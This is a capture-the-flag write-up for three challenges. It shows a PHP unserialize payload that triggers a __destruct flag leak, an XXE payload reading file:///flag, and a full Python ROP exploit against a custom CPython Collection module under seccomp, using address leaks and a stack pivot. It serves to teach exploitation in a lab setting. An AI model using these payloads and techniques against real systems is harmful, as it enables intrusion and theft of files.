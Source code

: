 # web

## PHP

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

Okay, so it's a classical unserialize vulnerability. The problem for us is to destory it before PHP *Exception*. 
I added an attribute in my serialize object...and it works...

Here it is:
```php
O:1:"B":0:{"b":0}
```

After viewing a few other writeups, it seens PHP will automatically called `__destroy` during unserializing invlaid PHP object.

# rev

## juggle

Not a *rev* challenge actually. It's a XLST injection which looks more web...

The expected solution seems require us to inject the file and change amount of data. But actually we can use a simple payload
to read *flag*:
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]><foo>&xxe;</foo>
```

# pwn

## collection

Even though this is the easiest one, but I still want to say super hard. The challenge provides a special cpython lib. It has seccomp
rule and some customized list. 

Baiscally, it merely allows follwing functions:
```
exit
exit_group
brk
mmap
munmap
mremap
readv
futex
sigaltstack
close
write
rt_sigaction
```
> Notice that we cannot get seccomp rule by directly using the lib as our `--file` parameter. We should create a python file which calls the function in `Collection` instead and use that script as out `--file` parameter
 
The program implememts a `collection` contianer in cpython, which only stores `long`, `dict`, and `list`. Then, it uses a double link list to store the those structure. `id` is allowd. We can use it to leak address.

The `collection` itself, however, has a `ob_refcnt` varaible. It's a counter for python GC. When it drops below `0`, python GC will `free` the memory region. The problem is that `get` function won't increase the `ob_refcnt` counter. Evem though we are using the object in later statements, the python GC will free it. It's a classical Use After Free.(Something I realize after the CTF...). And most team use this way.

Our bug seems more like an OOB. At the very begining, I can easily trigger crash via this script:
```python
from sys import modules
del modules['os']
import Collection
keys = list(__builtins__.__dict__.keys())
# for key in keys: print(key)
for k in keys:
    if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
        del __builtins__.__dict__[k]

a = Collection.Collection({
        "a":[1],
        "b":[10]
})

a.get('a').insert(1, 'aaaa')
a.get('a').insert(1, 'c'*44+'\x00\x00\x00\x00')
print(a.get('a'))
```

The gdb shows:
```
0x563cbd <PyObject_Repr+77> call   QWORD PTR [r11+0x58]
...
0x0000000063636363 in ?? ()
```

So, we overwrite some pointers in this object. But the problem is that we cannot pivot the stack or called `one_gadget`, which is annoying. The ROP will be terrible since we only control `r11`(which is out pinter) and `[r11+0x58]`(the overwritten address).

My teammate finally figured out the pivot...I never thought that we can use the exploit succesfully since ROP condition is harsh. He uses gadget `mov rbp, [rdi + 8]; call [rbp+0x30]`. `[rdi + 8]` contains a pointer near our payload. Then. `call [rbp + 0x30]` will go to that payload with new pivoted `rbp`. We can write the ROP handy:
```python
from sys import modules
import os
flag = open("flag", "r")
os.dup2(flag.fileno(), 1023)
flag.close()

del modules['os']
import Collection
"""
keys = list(__builtins__.__dict__.keys())
# print(keys)
for k in keys:
	if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
		del __builtins__.__dict__[k]
"""
p64 = lambda x: x.to_bytes(8,"little")

a = Collection.Collection({
	"a":[0x100],
	"b":[2e-100]
})

# leak libc
base_address = id(print)-0x5daf78-0xa000-0x8000
base_module = id(Collection.Collection)-0x2041e0

# readv = 0x4208b0
# write = 0x4207e0
# pop_rdi = 0x421612 # pop rdi; ret
# pop_rsi = 0x42110e # pop rsi; ret
# pop_rdx = 0x4026c1 # pop rdx; ret
# puts = base_address + 0x809c0
print("libc base: " + hex(base_address))
print("Collection base: " + hex(base_module))

SYSCALL = base_address + 0x00000000000d2975

payload = p64(0x00000000004299a8) +p64(0)
payload += p64(0x0000000000627751)
payload += p64(0x9b3ef0)
payload += p64(0x100)
payload += p64(0x9b3ef0)
payload += p64(0x9b3ef0)
payload += p64(0x6cdfc0) # PyInit_posix, doesn't do anything for now
s = b'd'*16


# 0x0000000000523df2
buf = id(payload)
print("payload addr: "+hex(id(payload)))
print("bytes[] addr: "+hex(buf))
print(a.get('b'))

print("syscall addr:" + hex(SYSCALL))

a.get('a').insert(1, s)
a.get('a').insert(1, payload)

POPRAX = 0x0000000000420f7b
POPRDI = 0x0000000000421612
POPRSI = 0x000000000042110e
POPRDX = 0x00000000004026c1


payload = payload[:-8]
payload += p64(0x000000000042a54a)
payload += p64(0x0000000000467123)
payload += p64(0xdeadbeef)
payload += p64(0x9b3ef0)
payload += p64(0xcafebabe)

payload += p64(POPRAX)
payload += p64(19)
payload += p64(POPRDI)
payload += p64(1023)
payload += p64(POPRSI)
payload += p64(buf + 0x38)
payload += p64(POPRDX)
payload += p64(2)
payload += p64(SYSCALL)

payload += p64(POPRAX)
payload += p64(1)
payload += p64(POPRDI)
payload += p64(1)
payload += p64(POPRSI)
payload += p64(0x9b3ef0)
payload += p64(POPRDX)
payload += p64(100)
payload += p64(SYSCALL)
#payload += b'c'*300

a.get('a').insert(1, s)
a.get('a').insert(1, payload)
print(a.get('a'))
```
